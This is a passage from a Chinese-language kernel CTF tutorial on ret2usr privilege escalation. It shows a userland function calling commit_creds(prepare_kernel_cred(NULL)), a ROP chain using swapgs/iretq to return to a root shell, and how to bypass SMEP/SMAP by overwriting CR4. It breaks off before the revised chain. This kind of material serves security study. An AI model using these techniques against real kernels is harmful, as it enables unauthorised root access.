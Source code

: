 可谓是相当熟悉了。

## 0x06 kernel ROP - ret2usr

~~ret2usr没了，不用学了~~

`ret2usr`实际上仍然属于`ROP`（确信），但由于`kernel`题中我们可以自行编写用户态下运行的`C`语言程序，因此我们便可以通过用户态下的`C`语言程序来直接执行内核态下的函数`commit_creds(prepare_kernel_cred(NULL))`，这可以减少`ROP`链构造的成本（例如你至少不需要通过`pop rdi`这些`gadgets`来传参执行函数）

例如，我们用户态下编写函数：

```c
void userland_root_shell(void){
    void* (*prepare_kernel_cred_ptr)(void*) = (void*)prepare_kernel_cred;
    int (*commit_creds_ptr)(void*) = (void*)commit_creds;
    (*commit_creds_ptr)((*prepare_kernel_cred_ptr)(NULL));
}
```

随后`ROP chain`便可以简化为如下形式：

```c
// commit_creds(prepare_kernel_cred(NULL));
rop_chain[i++] = (size_t)userland_root_shell;
rop_chain[i++] = SWAPGS_POPFQ_RET + offset;
rop_chain[i++] = 0; // pop_fq
rop_chain[i++] = IRETQ_RET + offset;
rop_chain[i++] = (size_t)get_root_shell;
rop_chain[i++] = user_cs;
rop_chain[i++] = user_rflags;
rop_chain[i++] = user_sp;
rop_chain[i++] = user_ss;
```

### smep && smap bypass

若内核开启了`smep/smap`机制，那么内核态无法访问用户态的代码并执行，否则会引起`panic`。然而，控制`smep/smap`是否开启的变量实际上是存储在`cr4`寄存器中的，这意味着我们可以通过`ROP`将其关闭。

在未开启`smep/smap`机制时，`cr4`的值一般为`0x6f0`（是的，一般），因此我们将其修改为这个值就可以绕过`smep/smap`机制。

如下所示，我们修改`start.sh`文件，使其开启`smep/smap`：

```bash
qemu-system-x86_64 \
-m 256M \
-kernel ./bzImage \
-cpu qemu64-v1,+smep,+smap \ # 在这里，开启smep和smap，注意无空格否则报错
-initrd  ./core.cpio \
-append "root=/dev/ram rw console=ttyS0 oops=panic panic=1 quiet kaslr" \
-s  \
-netdev user,id=t0, -device e1000,netdev=t0,id=nic0 \
-nographic
```

此时我们修改`rop_chain`为如下状态即可：
